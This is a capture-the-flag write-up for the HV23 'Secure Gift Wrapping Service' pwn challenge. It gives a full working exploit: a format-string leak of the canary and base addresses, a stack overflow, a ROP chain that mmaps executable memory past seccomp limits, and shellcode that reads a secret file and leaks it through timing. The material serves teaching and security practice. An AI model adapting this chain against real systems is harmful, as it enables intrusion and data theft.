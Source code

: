 # [HV23.22] Secure Gift Wrapping Service

## Introduction

Difficulty: 1337<br>
Author: darkice

This year, a new service has been launched to support the elves in wrapping gifts. Due to a number of stolen gifts in recent days, increased security measures have been introduced and the gifts are being stored in a secret place. As Christmas is getting closer, the elves need to load the gifts onto the sleigh, but they can't find them. The only hint to this secret place was probably also packed in one of these gifts. Can you take a look at the service and see if you can find the secret?

## Solution

Oh god, second difficult `pwn` challenge, but this time without an unintended solution, let's get this party started...

Starting off, there's a clear format string vulnerability in the first few lines, when prompted for our name, we can leak supply up to 20 characters used for leaking important addresses. Looking through gdb for a while, we can get `canary: %43$p, __libc_start_main+48: %45$p, main: %47$p` by submitting these leaks for our name.

```c
puts("Welcome to the secure gift wrapping service!\n");
printf("Who should the gifts be for? ");
fgets(s, 20, stdin);
printf("Processing the wishes of ");
printf(s);
```

Nice, we got all addresses we need and can fit them into a single leak. We can get the base addresses the following way:

```py        
libc = ELF('./libc_docker.so.6')
prog = ELF('./pwn')

libc_offset = libc.sym['__libc_start_main']
main_offset = prog.sym['main']

canary = int(leaks[0], 16)
libc_base = int(leaks[1], 16) - libc_offset + 48
pie_base = int(leaks[2], 16) - main_offset
```

Well, now the next problem arrives, we need a buffer overflow. After playing around a bit with `gdb` and using `cyclic` as an input for the first wish, then submitting single characters, we find `qaacraacsaact` in our `rbp`, which is at offset `264` when using `cyclic.find(b'aacuaacv')`.

Now we know our payload should look something like this:

```
264 Chars
    +
Stack Canary
    +
ROP Chain
```

This doesn't really help much because in the next few lines, there's some seccomp rules:

```c
v8 = seccomp_init(0LL);
seccomp_rule_add(v8, 2147418112LL, 60LL, 0LL);
seccomp_rule_add(v8, 2147418112LL, 231LL, 0LL);
seccomp_rule_add(v8, 2147418112LL, 0LL, 0LL);
seccomp_rule_add(v8, 2147418112LL, 2LL, 0LL);
seccomp_rule_add(v8, 2147418112LL, 257LL, 0LL);
seccomp_rule_add(v8, 2147418112LL, 9LL, 0LL);
seccomp_rule_add(v8, 2147418112LL, 3LL, 0LL);
seccomp_load(v8);
seccomp_release(v8);
```

This limits our available `syscall`'s to `exit, exit_group, read, open, openat, mmap, close`, this is bad, we don't get a `write`...

After spending way too much time I figured out (with the help of someone else ;)), that you can use the available `syscall`'s to create a new `rwx` segment in our program, load our own `asm` into it and then call the newly created segment.

```py
rop = ROP(libc)

rop.raw(rop.find_gadget(['ret']))
rop.raw(libc.address + 0x0000000000041979) # pop rcx ; add eax, 0x1a0751 ; ret
rop.raw(32)
rop.raw(libc.address + 0x000000000002a3e5) # pop rdi ; ret
rop.raw(prog.sym['gifts'])
rop.raw(libc.address + 0x0000000000054d69) # shl r9, cl ; mov qword ptr [rdi], r9 ; ret

new_segment = prog.address + 0x6000
rop.mmap(new_segment, 0x1000, 7, 0x2|0x20)
rop.read(0, new_segment, 100)
rop.call(new_segment)
```

First we initialize `rcx`, `rdi` and `r9`, then we call `mmap` using `pwntools`, which automatically sets a few registers with our needed values. `rdi=new_segment`, `rsi=length (0x1000)`, `rdx=PROT_READ|PROT_WRITE|PROT_EXEC`, `r10=MAP_PRIVATE|MAP_ANONYMOUS`

Then we just have to build our `asm` to brute-force character for character of our flag, if the character is correct, we will jump into a loop so we can get a timeout in our program.

Our final exploit code looks like this:

```py
from pwn import *
import string

context.log_level = 'error'
context.arch = 'amd64'

flagLen = 0x30
print("[+] Flag: HV23{", end="")
for location in range(5, flagLen):
    for ch in '_}' + string.ascii_lowercase + string.digits:
        rem = remote('152.96.15.10', 1337)
        rem.sendlineafter(b'? ', f'%43$p.%45$p.%47$p'.encode())
        leaks = rem.recvuntil(b'Name a ').lstrip(b'Processing the wishes of ').rstrip(b'\n\nName a ').split(b'.')

        libc = ELF('./libc_docker.so.6')
        prog = ELF('./pwn')

        libc_offset = libc.sym['__libc_start_main']
        main_offset = prog.sym['main']

        canary = int(leaks[0], 16)
        libc_base = int(leaks[1], 16) - libc_offset + 48
        pie_base = int(leaks[2], 16) - main_offset

        # print(f'Canary: {hex(canary)}')
        # print(f'libc_base: {hex(libc_base)}')
        # print(f'pie_base: {hex(pie_base)}')

        libc.address = libc_base
        prog.address = pie_base

        rop = ROP(libc)

        rop.raw(rop.find_gadget(['ret']))
        rop.raw(libc.address + 0x0000000000041979) # pop rcx ; add eax, 0x1a0751 ; ret
        rop.raw(32)
        rop.raw(libc.address + 0x000000000002a3e5) # pop rdi ; ret
        rop.raw(prog.sym['gifts'])
        rop.raw(libc.address + 0x0000000000054d69) # shl r9, cl ; mov qword ptr [rdi], r9 ; ret
        
        new_segment = prog.address + 0x6000
        rop.mmap(new_segment, 0x1000, 7, 0x2|0x20)
        rop.read(0, new_segment, 100)
        rop.call(new_segment)

        payload = b'A'*264
        payload += p64(canary)
        payload += rop.chain()

        rem.sendlineafter(b'wish: ', payload)

        for i in range(4):
            rem.sendlineafter(b'wish: ', b'a')

        file_name = next(prog.search(b'secret.txt'))
        data_segment = prog.address + 0x4000

        shellcode = asm(f'''
        mov rdi, {hex(file_name)}
        xor rsi, rsi
        xor rdx, rdx
        mov rax, 2
        syscall

        mov rdi, rax
        mov rsi, {hex(data_segment)}
        mov rdx, 0x30
        xor rax, rax
        syscall

        mov rsi, {hex(data_segment)}
        add rsi, {hex(location)}
        xor rax, rax
        mov al, {hex(ord(ch))}
        mov bl, [rsi]
        cmp al, bl

        je L2
        jmp done
        L2:
        nop
        jmp L2
        done:
        nop
        ''')

        before = time.time()
        try:
            rem.sendline(shellcode)
            ret = rem.recvall(timeout=3)
            if time.time() - before >= 3:
                print(ch, end="")
                break
        except:
            if time.time() - before >= 3:
                print(ch, end="")
                break
```

Flag: `HV23{t1m3_b4s3d_s3cr3t_exf1ltr4t10n}`